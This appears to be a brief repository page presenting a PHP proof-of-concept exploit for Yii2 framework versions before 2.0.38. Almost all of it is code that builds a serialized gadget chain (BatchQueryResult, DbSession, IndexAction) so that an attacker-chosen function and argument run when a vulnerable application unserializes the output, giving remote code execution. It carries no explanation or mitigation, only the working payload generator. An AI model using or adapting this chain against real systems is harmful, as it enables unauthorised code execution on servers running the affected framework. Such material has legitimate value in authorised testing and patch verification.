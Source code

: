 INFO
----

Yii2 \<2.0.38

EXP
---


    <?php
    namespace yii\rest {
        class Action extends \yii\base\Action
        {
            public $checkAccess;
        }
        class IndexAction extends Action
        {
            public function __construct($func, $param)
            {
                $this->checkAccess = $func;
                $this->id = $param;
            }
        }
    }
    namespace yii\web {
        abstract class MultiFieldSession
        {
            public $writeCallback;
        }
        class DbSession extends MultiFieldSession
        {
            public function __construct($func, $param)
            {
                $this->writeCallback = [new \yii\rest\IndexAction($func, $param), "run"];
            }
        }
    }
    namespace yii\base {
        class BaseObject
        {
            //
        }
        class Action
        {
            public $id;
        }
    }
    namespace yii\db {
        use yii\base\BaseObject;
        class BatchQueryResult extends BaseObject
        {
            private $_dataReader;
            public function __construct($func, $param)
            {
                $this->_dataReader = new \yii\web\DbSession($func, $param);
            }
        }
    }
    $exp = new \yii\db\BatchQueryResult($func, $param);
    print(serialize($exp));